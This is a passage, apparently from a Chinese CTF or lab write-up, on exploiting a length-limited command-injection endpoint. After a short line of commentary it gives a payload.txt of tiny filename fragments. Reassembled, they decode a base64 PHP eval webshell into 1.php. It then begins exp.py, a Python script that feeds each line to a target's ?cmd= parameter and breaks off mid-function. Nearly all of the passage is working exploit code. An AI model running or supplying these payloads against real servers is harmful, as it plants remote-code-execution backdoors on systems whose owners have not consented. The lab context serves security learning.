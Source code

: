 原理与之前的5位是一样的，经测试构造的payload.txt内容去掉了一个\也可以成功输出1.php

```shell
dir
f\>
ht-
sl
*>v
rev
*v>a
hp
p\
1.\
\>\
-d\
\ \
64\
se\
ba\
\|\
7\
Sk\
X\
x\
Fs\
FV\
d\
X0\
k\
g\
bC\
h\
XZ\
gZ\
A\
aH\
w\
D9\
P\\
S}\
IF\
{\
\$\
o\
ch\
e\
sh a
sh f
```

exp.py

```python
#!/usr/bin/python

# -*- coding: UTF-8 -*-

import requests
import threading
lock = threading.Lock()
def exp():
    lock.acquire(True) #锁定
    url = "http://192.168.12.107/4/index.php?cmd={0}"
    print("[+]start attack!!!")
    with open("payload.txt","r") as f:
```